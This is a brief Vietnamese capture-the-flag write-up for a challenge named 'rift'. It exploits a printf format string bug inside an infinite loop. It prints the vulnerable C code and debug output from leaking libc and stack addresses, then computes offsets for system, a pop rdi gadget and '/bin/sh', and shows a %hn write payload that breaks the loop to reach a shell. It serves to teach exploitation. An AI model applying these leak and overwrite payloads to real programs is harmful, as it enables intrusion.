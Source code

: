 # write up rift 
- mặc dù bài có chứa formatstring nhưng vì vòng lặp vô tận nên em phải phá được vòng lặp ra 
```c 
void vuln() {
    int always_true = 1;
    while (always_true) {
        fgets(buf, sizeof(buf), stdin);
        printf(buf);
    }
}
```assembly
[DEBUG] Sent 0x6 bytes:
    b'%11$p\n'
[DEBUG] Received 0xf bytes:
    b'0x7ffff7e3109b\n'

[DEBUG] Sent 0x5 bytes:
    b'%8$p\n'
[DEBUG] Received 0xf bytes:
    b'0x7fffffffe770\n'
[*] addr: 0x7ffff7e3109b
[*] target0x7fffffffe778
[*] base: 0x7ffff7e0d000
```
- sau khi leak được địa chỉ thì em sẽ thực hiện tính toán các địa chỉ cần thiết để từ đó ghi vào rip 
```c
    system_libc = base + libc.symbols["system"]
    pop_rdi = base + 0x0000000000023a5f
    bin_sh = base + 0x18052c 
```
- sau khi ghi xong thì ta cần cho chương trình nhảy vào return để thực thi 
```assembly
0x00005555555551f3 <+61>:	cmp    DWORD PTR [rbp-0x4],0x0
0x00005555555551f7 <+65>:	jne    0x5555555551c7 <vuln+17>
```python
    sl(f"%{break_loop&0xffff}c%27$hn".encode())
    delete()
```
khi chạy thì sẽ lấy được shell như bình thường 

